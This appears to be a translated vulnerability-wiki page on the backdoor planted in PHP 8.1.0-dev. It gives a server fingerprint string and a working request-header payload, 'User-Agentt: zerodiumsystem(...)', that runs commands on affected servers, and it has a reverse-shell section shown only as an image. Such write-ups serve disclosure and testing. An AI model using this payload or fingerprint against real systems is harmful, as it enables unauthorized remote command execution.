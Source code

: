 # PHP zerodium backdoor vulnerability

## Vulnerability Description

During the analysis of one of the malicious COMMITs, PHP development engineer Jake Birchall found that the backdoor injected into the code came from a website where PHP code was hijacked and used remote code to execute operations, and the attacker plagiarized the name of the PHP developer to submit the COMMIT.

So far, PHP has not disclosed more about the incident, saying that the specific details of the hacking of the server are still under investigation. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">PHP 8.1.0-dev</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"PHP/8.1.0-dev"</span>

## Vulnerability reappears

The backdoor adds a request header (yes User-Agentt, not User-Agent)

```plain
User-Agentt: zerodiumsystem('id');
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313092832416.png)



Rebound shell

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-7134912.png)